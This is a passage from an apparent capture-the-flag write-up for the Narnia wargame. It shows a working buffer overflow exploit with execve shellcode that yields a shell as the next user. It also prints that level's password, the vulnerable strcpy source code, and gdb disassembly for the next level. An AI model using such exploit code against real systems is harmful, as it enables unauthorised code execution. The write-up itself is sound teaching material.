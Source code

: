 Unfortunately, this payload did not work most likely due to a small shift in the memory address. It is important to note the fact that “Illegal instruction” was outputted instead of “Segmentation fault” which is a strong indicator that the payload is close to successful execution. It is the result of the overwritten EIP register pointing to an address with meaningless assembly code. After tweaking the address a little bit (changing \\x18\\xd5\\xff\\xff to \\x48\\xd5\\xff\\xff, we get a shell as narnia3\:

{% highlight bash %}
narnia2@narnia\:/narnia$ ./narnia2 $(python -c "print 'A'*132 +'\\x48\\xd5\\xff\\xff'+'\\x90'*30 +'\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x53\\x89\\xe1\\xb0  
\\x0b\\xcd\\x80'")  
$ whoami  
narnia3

$ cat /etc/narnia_pass/narnia3  
vaequeezee
{% endhighlight %}

### Source Code

{% highlight c %}
#include <stdio.h>  
#include <string.h>  
#include <stdlib.h>  
  
int main(int argc, char * argv[]){   char buf[128]\;   if(argc == 1){       printf("Usage\: %s argument\\n", argv[0])\;       exit(1)\;  
   }   strcpy(buf,argv[1])\;   printf("%s", buf)\;   return 0\;  
}
{% endhighlight %}

We can see that this program is vulnerable, as it only expects to receive up to 128 bytes for the buffer, and does not properly check the size of the user’s input.

Narnia 3
--------

Executing the narnia3 binary we see the following\:

{% highlight bash %}
narnia3@narnia\:/narnia$ ./narnia3  
usage, ./narnia3 file, will send contents of file 2 /dev/null

Essentially, the program claims that it will read the contents of a file and write its contents to /dev/null.
{% endhighlight %}

### Attempting to Read Passwords from the Stack Pointer

This means that the contents of the file it is reading from will most likely be in the esp register upon reading. We can verify this by first running the program in gdb and setting a breakpoint at the instruction right before the program terminates.

{% highlight bash %}
   0x08048602 <+247>\:   pushl  -0x4(%ebp)                                              
  0x08048605 <+250>\:   call   0x80483f0 <close@plt>                        
  0x0804860a <+255>\:   add    $0x4,%esp  
  0x0804860d <+258>\:   push   $0x1  0x0804860f <+260>\:   call   0x80483b0 <exit@plt>  
End of assembler dump.  
(gdb) b *0x0804860d                          
Breakpoint 1 at 0x804860d
{% endhighlight %}
